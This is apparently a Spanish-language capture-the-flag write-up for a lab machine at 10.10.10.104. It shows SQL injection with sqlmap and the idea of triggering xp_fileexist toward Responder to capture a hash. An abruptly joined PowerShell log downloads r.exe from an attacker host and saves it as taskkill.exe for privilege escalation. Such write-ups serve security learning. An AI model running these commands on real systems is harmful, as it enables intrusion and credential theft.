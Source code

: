 ``` text
| restorefile                                              |
| restorefilegroup                                         |
| restorehistory                                           |
| suspect_pages                                            |
| sysdac_instances                                         |
| syspolicy_conditions                                     |
| syspolicy_configuration                                  |
| syspolicy_object_sets                                    |
| syspolicy_policies                                       |
| syspolicy_policy_categories                              |
| syspolicy_policy_category_subscriptions                  |
| syspolicy_policy_execution_history                       |
| syspolicy_policy_execution_history_details               |
| syspolicy_system_health_state                            |
| syspolicy_target_set_levels                              |
| syspolicy_target_sets                                    |
+----------------------------------------------------------+

```

Después de buscar y buscar dentro de la DB, opte por un approach diferente... Probar que puede ejecutarse desde este proceso dentro del sistema operativo. Claro lo mas evidente fue usar --os-cmd, pero este fallo. No cerrándome a este resultado, abrí google e investigue un poco, llegando a varios artículos interesantes:

- [Hacking SQL Server Stored Procedures](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation)
- [Executing SMB Relay Attacks via SQL Server using Metasploit](https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/)
- [Full MSSQL Injection PWNage, More Dangerous SQL Injection Attack](https://www.exploit-db.com/papers/12975)

Esto me genero la idea de que si era posible lanzar xp\_dirtree o xp\_fileexist hacia responder, podríamos capturar el hash.

# exec xp\_fileexist

Iniciamos por abrir en una consola Responder con `python Responder.py -wrf -I tun0`. En otra consola iniciamos sqlmap en modo sql-shell y ejecutamos el exec:

``` text
xbytemx@laptop:~$ sqlmap -u "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" --sql-shell
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:02:53 /2019-02-15/

[14:02:53] [INFO] resuming back-end DBMS 'microsoft sql server'
[14:02:53] [INFO] testing connection to the target URL
[14:02:53] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService